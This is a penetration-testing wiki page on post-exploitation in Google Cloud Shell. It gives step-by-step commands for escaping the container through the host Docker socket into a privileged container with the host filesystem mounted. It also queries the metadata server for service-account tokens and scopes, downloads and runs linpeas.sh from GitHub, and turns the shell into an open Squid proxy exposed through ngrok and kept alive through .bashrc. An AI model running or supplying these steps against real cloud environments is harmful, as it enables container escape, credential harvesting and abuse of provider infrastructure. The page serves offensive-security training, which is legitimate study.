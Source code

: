 # GCP - Cloud Shell Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Shell

For more information about Cloud Shell check:

{{#ref}}
../gcp-services/gcp-cloud-shell-enum.md
{{#endref}}

### Container Escape

Note that the Google Cloud Shell runs inside a container, you can **easily escape to the host** by doing:

```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```

This is not considered a vulnerability by google, but it gives you a wider vision of what is happening in that env.

Moreover, notice that from the host you can find a service account token:

```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```

With the following scopes:

```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```

Enumerate metadata with LinPEAS:

```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```

After using [https://github.com/carlospolop/bf_my_gcp_permissions](https://github.com/carlospolop/bf_my_gcp_permissions) with the token of the Service Account **no permission was discovered**...

### Use it as Proxy

If you want to use your google cloud shell instance as proxy you need to run the following commands (or insert them in the .bashrc file):

```bash
sudo apt install -y squid
```

Just for let you know Squid is a http proxy server. Create a **squid.conf** file with the following settings:

```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```

copy the **squid.conf** file to **/etc/squid**

```bash
sudo cp squid.conf /etc/squid
```

Finally run the squid service:

```bash
sudo service squid start
```

Use ngrok to let the proxy be available from outside:

```bash
./ngrok tcp 3128
```

After running copy the tcp:// url. If you want to run the proxy from a browser it is suggested to remove the tcp:// part and the port and put the port in the port field of your browser proxy settings (squid is a http proxy server).

For better use at startup the .bashrc file should have the following lines:

```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```

The instructions were copied from [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key). Check that page for other crazy ideas to run any kind of software (databases and even windows) in Cloud Shell.

{{#include ../../../banners/hacktricks-training.md}}





